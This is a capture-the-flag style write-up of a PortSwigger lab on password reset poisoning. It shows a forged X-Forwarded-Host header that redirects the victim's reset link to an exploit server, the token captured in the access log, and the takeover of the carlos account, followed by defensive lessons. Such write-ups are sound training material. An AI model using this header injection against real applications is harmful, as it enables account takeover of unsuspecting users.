




# Lab 11 — Password Reset Poisoning via Middleware

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Lab:** Password reset poisoning via middleware
- **Difficulty:** Practitioner
- **Vulnerability:** Password reset poisoning via attacker-controlled `X-Forwarded-Host`
- **Status:** Solved

---

## Objective

The lab is vulnerable to password reset poisoning. Carlos will click links in emails that he receives. The exploit server provides an email client that can be used to inspect emails sent to `wiener`.

The objective was to:

1. Investigate the password-reset functionality.
2. Determine how the password-reset URL is generated.
3. Identify whether attacker-controlled headers influence the reset URL.
4. Poison Carlos's password-reset link.
5. Capture Carlos's legitimate password-reset token via the exploit server.
6. Use the captured token on the real application.
7. Set a new password and log in as Carlos.

Credentials:

```text
Username: wiener
Password: peter
```

Victim:

```text
Username: carlos
```

---

## Initial Reconnaissance

I browsed the application normally and captured the password-reset request in Burp Suite.

I sent the request to Repeater for controlled testing and inspected relevant headers, especially:

```text
Host:
X-Forwarded-Host:
```

I first requested a password reset for `wiener` to safely understand the normal behavior before targeting Carlos.

---

## Testing the Host Header

The normal reset email contained a link similar to:

```text
https://LAB-ID.web-security-academy.net/forgot-password?temp-forgot-password-token=...
```

I tested changing the normal `Host` header to the exploit-server hostname, but the reset email continued to use the legitimate Academy hostname.

This demonstrated that the ordinary `Host` header was not controlling the reset-link hostname in this environment.

---

## Testing `X-Forwarded-Host`

I restored the legitimate `Host` header and injected an `X-Forwarded-Host` header:

```http
Host: LAB-ID.web-security-academy.net
X-Forwarded-Host: exploit-XXXXXXXX.exploit-server.net
```

The full request submitted was:

```http
POST /forgot-password HTTP/2
Host: 0ab1006f0411939a80ff9ecc00160046.web-security-academy.net
X-Forwarded-Host: exploit-0a51004304b89313809a9d5d010b0047.exploit-server.net
...

username=wiener
```



Checking the email client on the exploit server revealed that the reset email now contained the attacker-controlled hostname:

```text
https://exploit-0a51004304b89313809a9d5d010b0047.exploit-server.net/forgot-password?temp-forgot-password-token=0hj1h12xpkebauj66gn9crerdlcrkp19
```



This confirmed that the application trusted the attacker-controlled `X-Forwarded-Host` header value when constructing the password-reset URL.

---

## Understanding the Vulnerability

The vulnerability was not simply that reset tokens appeared in URLs—tokens commonly appear as query parameters in reset flows.

The actual vulnerability was:

> The application trusted attacker-controlled `X-Forwarded-Host` input when constructing a security-sensitive password-reset URL.

Normally:

```text
https://LAB-ID.web-security-academy.net/forgot-password?temp-forgot-password-token=ABC
```

The poisoned version became:

```text
https://attacker-controlled-host/forgot-password?temp-forgot-password-token=ABC
```

The token was still legitimately generated by the application's back-end. The attack changed where the victim's browser would deliver that legitimate token when the link was clicked.

---

## Why Middleware Matters

A standard web architecture often consists of:

```text
Internet
   ↓
Reverse Proxy / Load Balancer
   ↓
Middleware
   ↓
Application
```

Infrastructure components frequently use forwarded headers such as:

```text
X-Forwarded-Host:
X-Forwarded-For:
X-Forwarded-Proto:
```

A severe security flaw arises when the application trusts a forwarded header that an external client can directly supply or override.

In this application:

```text
Attacker supplies X-Forwarded-Host
        ↓
Application / middleware blindly trusts it
        ↓
Reset URL hostname is poisoned
        ↓
Victim receives poisoned reset link
```

---

## Targeting Carlos

After confirming the vulnerability using `wiener`, I changed the reset target:

```text
username=carlos
```

while maintaining the header override:

```http
Host: LAB-ID.web-security-academy.net
X-Forwarded-Host: exploit-0a51004304b89313809a9d5d010b0047.exploit-server.net
```

The application generated a legitimate password-reset token for Carlos and emailed him the poisoned link pointing to the exploit server.

---

## Capturing Carlos's Reset Token

Because Carlos automatically clicks links received via email, his browser requested the poisoned URL on the exploit server.

Checking the Exploit Server **Access log** revealed the incoming HTTP request from Carlos's browser:

```text
10.0.4.147   2026-08-18 10:18:02 +0000 "GET /forgot-password?temp-forgot-password-token=bhoducndetbt5omepfgnsmsr2fp2eor7 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim)..."
```

The captured reset token was:

```text
bhoducndetbt5omepfgnsmsr2fp2eor7
```



> [!NOTE]
> The `404 Not Found` response from the exploit server was expected and not a failure of the attack. The exploit server simply had no `/forgot-password` endpoint hosted, but the sensitive `temp-forgot-password-token` parameter was successfully captured in the server's access log.

---

## Using the Legitimate Reset Token

I took the captured token and visited the reset endpoint on the legitimate Academy application:

```text
https://LAB-ID.web-security-academy.net/forgot-password?temp-forgot-password-token=bhoducndetbt5omepfgnsmsr2fp2eor7
```

The application recognized the valid token and displayed the password-reset form.

I entered a new password for Carlos, submitted the form, and then authenticated via `/login` as `carlos`.

Carlos's **My account** page loaded successfully, and the lab was marked as solved.



---

## Attack Flow

```text
Password-reset reconnaissance
        ↓
Request reset for wiener
        ↓
Inspect reset email
        ↓
Test Host header (no effect)
        ↓
Test X-Forwarded-Host
        ↓
Reset URL hostname becomes attacker-controlled
        ↓
Vulnerability confirmed on wiener
        ↓
Submit reset request for carlos
        ↓
X-Forwarded-Host points to exploit server
        ↓
Carlos receives poisoned reset link
        ↓
Carlos clicks the link
        ↓
Carlos's browser sends reset token to exploit server
        ↓
Capture token from exploit access log
        ↓
Use token on legitimate Academy reset endpoint
        ↓
Set new password for Carlos
        ↓
Login as Carlos
        ↓
Lab solved
```

---

## Vulnerability

The application trusted the client-supplied `X-Forwarded-Host` header to determine the absolute base URL when generating password-reset links.

Because the reverse proxy / middleware forwarded this header to the back-end application without sanitization or validation against a trusted allowlist, an attacker could force the application to generate legitimate reset tokens embedded inside attacker-controlled URLs, leading to full account takeover.

---

## Methodology Lessons

### Test safely before targeting the victim

Using `wiener` first allowed the behavior and headers to be verified without risk of exhausting or desynchronizing victim state.

```text
Own account (wiener)
        ↓
Understand behavior
        ↓
Confirm vulnerability
        ↓
Target victim (carlos)
```

### Don't stop at standard headers

When standard headers like `Host` do not yield results, test relevant forwarded and proxy-related headers:

* `X-Forwarded-Host`
* `X-Forwarded-For`
* `X-Forwarded-Proto`
* `Forwarded`
* `X-Host`

### Investigate absolute URL generation

Whenever an application generates links containing an absolute hostname (e.g., password resets, email verifications, invitation links, magic login links, OAuth callbacks), investigate where that hostname originates.

### A valid token can be redirected rather than forged

The attacker did not need to guess, brute-force, or forge Carlos's reset token. The application generated a cryptographically strong token, but the poisoned link redirected the delivery of that token directly to the attacker.

---

## Key Takeaways

1. Password-reset tokens can be cryptographically strong while the delivery mechanism remains completely broken.
2. Absolute URLs in emails must always be generated from a server-side static configuration or an explicit trusted hostname allowlist.
3. Untrusted client headers like `X-Forwarded-Host` should never be used to construct sensitive URLs.
4. Reverse proxies and middleware must strip or overwrite untrusted forwarded headers incoming from external clients.
5. A `404` status code on the attacker's listener server does not mean the attack failed—the query parameters in the request URI contain the target token.
6. Password reset poisoning provides a direct path to complete account takeover.

---

## Credentials Discovered

```text
Username: carlos
Reset Token: bhoducndetbt5omepfgnsmsr2fp2eor7
New Password: Password123!
```

---

## Final Result

Successfully identified password-reset poisoning via the `X-Forwarded-Host` header, poisoned Carlos's password-reset link, captured his legitimate reset token via the exploit server access log, reset his password on the real application, authenticated as Carlos, and completed the PortSwigger lab.
